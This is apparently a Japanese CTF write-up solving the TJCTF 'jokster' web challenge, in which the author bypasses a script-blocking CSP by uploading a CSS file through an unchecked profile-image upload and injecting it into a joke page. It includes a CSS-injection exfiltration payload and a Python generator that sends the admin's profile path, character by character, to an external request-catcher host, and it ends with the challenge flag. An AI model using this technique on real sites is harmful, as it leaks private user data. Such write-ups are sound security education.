


# jokster:web:441pts
I love jokes. So much, even, that I could no longer think of my own. Because of that, I made this so I could yours!!!  
[jokster.tjc.tf](https://jokster.tjc.tf/)  
[Admin Bot](https://admin-bot.tjctf.org/jokster)  

Downloads  
[admin-bot.js](admin-bot.js)　[server.zip](server.zip)  

# Solution
サイト、Admin Bot、ソースが渡される。  
アクセスすると、ジョークを投稿するサイトのようだ。  
jokster  
[site.png](site/site.png)  
登録し、ログインするとプロフィールページ(https://jokster.tjc.tf/profile/jcyrvkir)が作られた。  
Profile  
[profile.png](site/profile.png)  
`Edit Profile`ではUsername、Password、画像が変更できる。  
Admin Botがあるため、XSSを狙ってタグを含むジョークを送信する。  
`</title><s>atoki`で無事にsタグを挿入できた(Joke部分のみのようだ)。  
  
ここでCSPをチェックすると以下のようであった。  
```
script-src 'none';
img-src * data:;
style-src 'self' fonts.googleapis.com;
default-src 'self';
base-uri 'self';
block-all-mixed-content;
font-src 'self' https: data:;
form-action 'self';
frame-ancestors 'self';
object-src 'none';
script-src-attr 'none';
upgrade-insecure-requests
```
scriptは実行できないようだ。  
通常のcookie取得でないことが分かったため、flagの場所とAdmin Botの挙動を確認する。  
flagはindex.jsの中より、`admin`の`punchline`にあるようだ。  
Admin Botは以下のようにログインを行い、その後に送信された同一オリジンのサイトをクロールする。  
```js
~~~
        await page.goto('https://jokster.tjc.tf/login', { waitUntil: 'domcontentloaded' });

        await sleep(1000);

        const usernameInput = await page.$('#username');
        await usernameInput.type('admin');

        const passwordInput = await page.$('#password');
        await passwordInput.type(adminPassword.trim());

        const submitButton = await page.$('input[type="submit"]');
        await submitButton.click();

        await sleep(500);

        await page.goto(url, { timeout: 3000, waitUntil: 'domcontentloaded' });
~~~
```
adminのJokeを閲覧することを目指す。  
Jokeは他者のものをログインなしで閲覧できるが、URLはランダム(8桁)である。  
また、プロフィールにジョークの一覧が表示されるが、プロフィールページのURLもランダムである。  
壊れたimgタグを挿入して情報をリークできないかと考え、投稿したJokeのソースを眺めていると以下のタグが目に留まった。  
```html
~~~
        <span class="nav-right">
            <a href="/profile/jcyrvkir" class="nav-link">
                Satoki
            </a>
            <a href="/logout" class="nav-link">Logout</a>
        </span>
~~~
```
閲覧者のプロフィールアドレスがレンダリングされている(ログアウトすると無くなる)。  
Admin Botであればここはadminのプロフィールアドレスである。  
これをCSSiにて取り出せばよいと気付く。  
CSPに立ち返ると、CSSは`style-src 'self' fonts.googleapis.com;`であるので、cssファイルを同一オリジンに設置できればよい。  
投稿機能やファイルアップロード機能を調べていると、プロフィール画像の変更にてファイルの種類や拡張子のチェックを行っていないことがわかる(ちなみにファイル名はランダムであり、拡張子部分でもHTMLタグを挿入できるがあまり意味はない)。  
以下のようなCSSをアップロードし、Jokeページで読み込むと、閲覧者のプロフィールアドレスの一文字目がリークできる。  
リクエスト受信は[RequestBin.com](https://requestbin.com/)を用いた。  
```css
a[href^='/profile/a'] {background-image: url('https://xxxxxxxxxxxxx.x.pipedream.net/?a');}
a[href^='/profile/b'] {background-image: url('https://xxxxxxxxxxxxx.x.pipedream.net/?b');}
a[href^='/profile/c'] {background-image: url('https://xxxxxxxxxxxxx.x.pipedream.net/?c');}
a[href^='/profile/d'] {background-image: url('https://xxxxxxxxxxxxx.x.pipedream.net/?d');}
~~~
```
Jokeページではアップロードに成功したCSSファイルを`</title><link rel="stylesheet" href="https://jokster.tjc.tf/uploads/xxxxxxxx.css">`と読み込んでやる。  
これで生成されたJokeページをAdmin Botに送信してやると、adminのプロフィールアドレスの一文字目が取得できる。  
これを八文字分繰り返せばよいが、面倒なので以下のcss_gen.pyで二文字ずつリークするcssを作成した。  
```python
url = "https://xxxxxxxxxxxxx.x.pipedream.net"
admin_id = ""

with open("example.css", mode="w") as f:
    for i in "abcdefghijklmnopqrstuvwxyz0123456789-_":
        for j in "abcdefghijklmnopqrstuvwxyz0123456789-_":
            f.write(f"a[href^='/profile/{admin_id}{i}{j}'] {{background-image: url('{url}/?{admin_id}{i}{j}');}}\n")
```
これをアップロードした後、それを読み込むJokeをAdmin Botに踏ませる作業を繰り返すと以下のようなリクエストが届く。  
```
/?x3
/?x3fw
/?x3fwr0
/?x3fwr0nt
```
これにより、adminのプロフィールアドレスが`https://jokster.tjc.tf/profile/x3fwr0nt`とわかった。  
  
アクセスするとflagが書かれていた。  

## tjctf{but_i_tHink_im_f1na1lY_cl34N_9b9c0ad1}